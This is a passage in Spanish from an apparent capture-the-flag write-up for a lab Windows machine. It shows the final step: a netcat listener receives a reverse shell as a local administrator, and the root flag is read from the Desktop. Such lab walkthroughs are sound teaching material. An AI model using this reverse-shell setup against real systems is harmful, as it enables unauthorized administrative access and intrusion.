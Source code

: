 Al guardar el documento de nuevo dentro de la misma carpeta, estando en escucha en nuestro equipo recibiremos una consola:

```bash
# rlwrap es una utilidad para tener cierto control sobre la terminal, como limpiar la pantalla y poder mover el cursor entre carácteres, es útil cuando no puedes crear una tty en Linux o te vas a pasar una consola de Windows, las cuales no son muy flexibles en estas condiciones.
❯ rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.14 51389
Microsoft Windows [Version 10.0.19045.4355]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\LibreOffice\program>
```

y recibimos la consola como un usuario administrador, waos

```bash
C:\Program Files\LibreOffice\program>whoami
whoami
mailing\localadmin
```

Por lo que ya podemos irnos al escritorio de este usuario y tomar la última flag.

```bash
C:\Program Files\LibreOffice\program>cd C:\Users\localadmin\Desktop
cd C:\Users\localadmin\Desktop

C:\Users\localadmin\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9502-BA18

 Directory of C:\Users\localadmin\Desktop

2024-04-12  06:10 AM    <DIR>          .
2024-04-12  06:10 AM    <DIR>          ..
2024-02-27  05:30 PM             2,350 Microsoft Edge.lnk
2024-09-07  03:35 AM                34 root.txt
               2 File(s)          2,384 bytes
               2 Dir(s)   4,412,719,104 bytes free

C:\Users\localadmin\Desktop>type root.txt
type root.txt
2466d2658305efb892f79f8453******
```











